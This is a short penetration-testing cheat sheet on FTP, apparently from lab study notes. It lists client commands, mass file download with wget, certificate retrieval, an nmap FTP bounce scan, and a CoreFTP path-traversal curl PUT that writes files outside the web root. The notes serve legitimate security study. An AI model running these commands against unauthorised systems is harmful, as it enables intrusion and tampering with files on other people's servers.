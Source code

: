 ## 21 - FTP

**Type:** Authentication, Read/Write

- Active vs Passive mode:

  In the `active` variant, if a  firewall protects the client, the server cannot reply because all  external connections are blocked., while in the `passive mode`, the firewall does not block the transfer.

- [List of FTP return codes](https://en.wikipedia.org/wiki/List_of_FTP_server_return_codes)

### Interaction:

- `ftp [IP] -P [PORT]`

  - `cd`, `ls -la` , to navigate
  - `get` `put` to download/upload
  - `status` to check the settings
  - `LIST -R`, if the setting ls_recurse_enable=YES, this show all the content at once.
  - `debug`
  - `trace`

- Download all available files:

  ```bash
  wget -m --no-passive ftp://user:pass@10.129.14.136
  ```

- If TLS/SSl encryption is present, to get the certificate:

  ```bash
  openssl s_client -connect [IP] -starttls ftp
  ```


### Exploit:

- **File upload**
  - LFI
  - with web servers, it is common that files are synchronized
- **sniffing** with tcpdump 
- **Bounce attack**
  It is a way to get nmap access a local server (that you cannot scan with nmap) through an exposed ftp server

  ```bash
  nmap -Pn -v -n -p80 -b [user]:[pass]@[EXPOSED SERVER] [LOCAL SERVER]
  ```
### Server
#### CoreFTP

  Allows an HTTP `PUT` request, which we can use to write content to files. 

  ```bash
  curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
  ```
